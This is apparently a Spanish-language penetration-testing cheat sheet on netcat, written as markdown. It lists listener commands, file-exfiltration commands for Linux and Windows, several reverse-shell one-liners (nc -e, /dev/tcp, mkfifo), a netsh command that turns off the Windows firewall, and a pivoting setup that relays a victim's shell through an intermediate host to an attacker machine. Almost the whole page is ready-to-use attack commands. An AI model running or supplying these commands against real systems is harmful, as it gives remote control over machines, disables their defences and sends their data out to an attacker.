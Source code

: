 # Netcat
# **Escucha con netcat**
```Bash
rlwrap nc -nvlp 443
```

## **Descargar fichero con netcat**
### **Escucha desde nuestra maquina**
Nuestra maquina
```Bash
nc -lvp <4444> > <archivo>
```
###  **Transferencia Linux**
```
nc -w 3 <IP> <port> < <archivo>
```
### **Transferencia Windows**
```
nc.exe <IP> <PORT> < "C:\Program Files (x86)\Spoofer\firewall.vbs"
```

## **Shell con netcat**
```Bash
nc <IP> <PORT> -e /bin/bash
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 #Ubunutu
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f #Cuando no sirve nc -e /bin/bash
```

## **Pivoting con netcat**
Deshabilitamos el cortafuegos
```
netsh advfirewall set allprofiles state off
```

Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por  el puerto 4444 lo vamos a enviar al puerto 1234 de la máquina atacante:
```
nc.exe -l -p 4444 -e "nc 192.168.0.14 1234"
```

Ahora nos ponemos en escucha con netcat desde nuestra maquina victima
```
nc -nvlp 1234
```

Y en la maquina victima ejecutamos la shell con netcat por el puerto que este escuchando la maquina intermediaria
```
nc -c bash 10.10.10.3 4444
```
